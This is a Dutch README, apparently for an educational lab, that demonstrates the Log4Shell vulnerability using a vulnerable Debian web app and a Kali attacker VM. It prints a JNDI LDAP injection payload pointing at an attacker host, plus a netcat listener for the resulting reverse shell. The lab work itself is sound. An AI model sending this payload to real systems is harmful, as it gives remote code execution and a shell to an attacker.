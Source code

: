 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Installatie script target VM (https://raw.githubusercontent.com/DenzelBasteleus/VmSoftware/refs/heads/main/vm_softwaredebian.sh)

### Stappen:
Open op je VM een terminal, je zal zien dat in je home directory een file CyberSec25 aanwezig is.
```bash
cd CyberSec25/scripts
chmod +x setup_target.sh
sudo ./setup_target.sh
```
Het script zal de nodige libraries installeren om een jetty webapplicatie op te stellen.

Deze wordt vervolgens gehost op: [http://localhost:8080].

Je target VM is opgezet.

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Installatie script attacker VM (https://raw.githubusercontent.com/DenzelBasteleus/VmSoftware/refs/heads/main/vm_softwareLinux.sh)

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```
Browse via je webbrowser naar de webapplicatie van je target VM.

Dit is normaal gezien http://targetVM-IP:8080

De webapp is zo geconfigureerd dat iedere ingave gelogd wordt in log4j.

Gebruik de volgende payload in het formulier op de target:
```text
${jndi:ldap://<attacker-ip>:1389/a}
```
- jndi = een Java API waarmee je objecten kunt opzoeken
- ldap:// = het protocol
- 10.0.2.5 = IP van de aanvaller / LDAP-server
- :1389 = standaard poort voor LDAP
- /a = zoekpad of zoek-id in de LDAP-directory

De exploit zal een reverse-shell starten vanop de target VM.
Hiervoor moeten we een listener opzetten:
```bash
nc -lvnp 4444
```
---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
├── log4j2.xml
└── test_payload.txt
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.
